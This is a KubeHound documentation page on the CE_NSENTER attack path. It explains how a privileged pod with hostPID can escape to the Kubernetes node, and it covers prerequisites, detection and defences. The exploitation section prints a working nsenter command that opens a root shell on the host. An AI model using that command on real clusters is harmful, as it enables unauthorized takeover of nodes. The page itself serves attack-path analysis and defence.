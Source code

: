 ```yaml
---
title: CE_NSENTER
---
```


<!--
id: CE_NSENTER
name: "Container escape: nsenter"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_NSENTER

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Container escape via the nsenter built-in linux program that allows executing a binary into another namespace.

## Details

When both `hostPID: true` and `privileged: true` are set, the pod can see all of the processes on the host, and you can enter the init system (PID 1) on the host, and execute your shell on the node 

## Prerequisites

Execution within a container process created with `--privileged` AND the `--pid=host` enabled.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_NSENTER.yaml).

## Checks

There is no straightforward way to detect if `hostPID` is activated from a container. The only way is to detect host program running from a pod. The most common way is to look for the `kubelet` binary running:

```bash
ps -ef | grep kubelet
```

## Exploitation

`nsenter` is a tool that allows us to enter the namespaces of one or more other processes and then executes a specified program. When you exec a binary into a container using the docker exec command:

```bash
docker exec -it --user root <container name> sh
```

You could do the same with nsenter:
+ Target a specific container
+ Look for PID of the targetted container
+ Execute `nsenter` of this specific PID and ask for all namespaces

```bash
docker ps | grep <container name>
CONTAINER_PID=$(docker inspect <container name> --format='{{ .State.Pid }}')
sudo nsenter -t $CONTAINER_PID -m -u -n -i -p sh
```

So to escape from a container and access the pod you just run, you need to target running on the host as root (PID of 1 is running the init for the host) ask for all the namespaces:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

The options `-m -u -n -i -p` are referring to the various namespaces that you want to access (e.g mount, UTS, IPC, net, pid).

## Defences

### Monitoring

+ Monitor for the use of the nsenter binary.
+ Monitor the `setns` syscall

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` or `hostPid` enabled.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeNsenter](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_nsenter.go)

## References:

+ [nsenter(1) - Linux manual page](https://man7.org/linux/man-pages/man1/nsenter.1.html)
+ [Bad Pod #2: Privilege and HostPid](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod2)
+ [Debugging containers using nsenter](https://jaanhio.me/blog/nsenter-debug/)

